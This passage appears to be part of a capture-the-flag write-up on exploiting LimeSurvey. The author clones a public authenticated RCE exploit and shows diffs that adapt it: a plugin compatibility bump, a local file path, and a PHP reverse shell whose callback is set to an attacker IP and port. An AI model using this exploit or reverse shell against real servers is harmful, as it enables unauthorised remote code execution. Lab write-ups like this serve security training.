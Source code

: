 With a simple Google search for "LimeSurvey Authenticated RCE" I found [this RCE exploit](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE).

I cloned the repo to my machine.

```sh
┌──(kali㉿kali)-[~]
└─$ git clone https://github.com/Y1LD1R1M-1337/Limesurvey-RCE.git
Cloning into 'Limesurvey-RCE'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (6/6), done.
Receiving objects: 100% (24/24), 10.00 KiB | 10.00 MiB/s, done.
Resolving deltas: 100% (5/5), done.
remote: Total 24 (delta 2), reused 0 (delta 0), pack-reused 18 (from 1)
```

I then made a couple changes to several files. The changes are as follows.

```diff
diff --git a/config.xml b/config.xml
index 0cb5e71..5b31605 100644
--- a/config.xml
+++ b/config.xml
@@ -18,6 +18,7 @@
         <version>3.0</version>
         <version>4.0</version>
         <version>5.0</version>
+       <version>6.0</version>
     </compatibility>
     <updaters disabled="disabled"></updaters>
 </config>

diff --git a/exploit.py b/exploit.py
index 817c94f..1ccdd77 100644
--- a/exploit.py
+++ b/exploit.py
@@ -61,7 +61,7 @@ print("[+]Login Successful")
 print("")
 print("[+] Upload Plugin Request...")
 print("[+] Retrieving CSRF token...")
-filehandle = open("/root/limesurvey/plugin/Y1LD1R1M.zip",mode = "rb") # CHANGE THIS
+filehandle = open("/home/kali/Limesurvey-RCE/Y1LD1R1M.zip",mode = "rb") # CHANGE THIS
 login = req.post(url+"/index.php/admin/authentication/sa/login" ,data=login_creds)
 UploadPage = req.get(url+"/index.php/admin/pluginmanager/sa/index")
 response = UploadPage.text

diff --git a/php-rev.php b/php-rev.php
index d15f929..aec372c 100644
--- a/php-rev.php
+++ b/php-rev.php
@@ -2,7 +2,7 @@
 
 set_time_limit (0);
 $VERSION = "1.0";
-$ip = '192.26.26.128';  // CHANGE THIS
+$ip = '10.10.16.8';  // CHANGE THIS
 $port = 1337;       // CHANGE THIS
 $chunk_size = 1400;
 $write_a = null;
```
